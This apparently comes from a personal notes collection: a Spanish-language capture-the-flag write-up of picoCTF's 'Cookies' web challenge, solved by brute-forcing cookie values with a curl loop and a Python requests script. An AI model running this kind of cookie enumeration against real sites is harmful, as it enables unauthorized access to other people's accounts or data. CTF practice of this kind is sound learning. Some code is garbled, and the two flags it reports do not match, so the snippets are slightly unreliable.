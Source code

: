 #Software #Hacking #WebExplotation #Web #Internet 
# Definición
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:29649/](http://mercury.picoctf.net:29649/)
# Hints
(None)
# Solución
Al entrar vemos que no sabemos cuál cookie necesitamos, por lo que vemos a donde nos redirige que una cookie valida (usando [[CURL]]).
```bash
C:\Users\52492>curl http://mercury.picoctf.net:29649/check -H "Cookie: name=1"
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>
</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <!-- Categories: success (green), info (blue), warning (yellow), danger (red) -->


        <div class="alert alert-success alert-dismissible" role="alert" id="myAlert">
          <button type="button" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button>
          <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
            </div>



        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>I love chocolate chip cookies!</b></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
    <script>
    $(document).ready(function(){
        $(".close").click(function(){
            $("myAlert").alert("close");
        });
    });
    </script>
</body>

</html>****
```

Pero vemos que no la encontramos, por lo cual intentamos en otras cookies, pero no la encontramos, por lo que establecemos un for para encontrar la bandera, y nos apoyamos de grep para acceder a un elemento en específico.

```bash
for i in {1..20}; do curl sS http://mercury.picoctf.net:21485/check -H "Cookie: name =$i"; done | grep picoCTF](<AsumomezaC-picoctf@webshell:~$ for i in {1..20}; do curl -s http://mercury.picoctf.net:21485/check -H "Cookie: name =$i"; done | grep picoCTF
            %3Cp style="text-align:center; font-size:30px;"%3E<b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}</code></p>>)
```

Y así obtenemos la bandera.
### Con [[python]]
Puedes crear también un script en python para crear buscar la bandera.
```python
import requests
import re

url = "http://mercury.picoctf.net:21485/check"

for i in range(20):
        cookies = {'name':'{}'.format(i)}
        #print(cookies)
        r = requests.get(url, cookies=cookies)
        if 'picoCTF' in r.text:
                #print(r.text)
                flag = re.findall('picoCTF{.*?}',r.text)[0]
                print(flag)>)
```
## Respuesta
picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}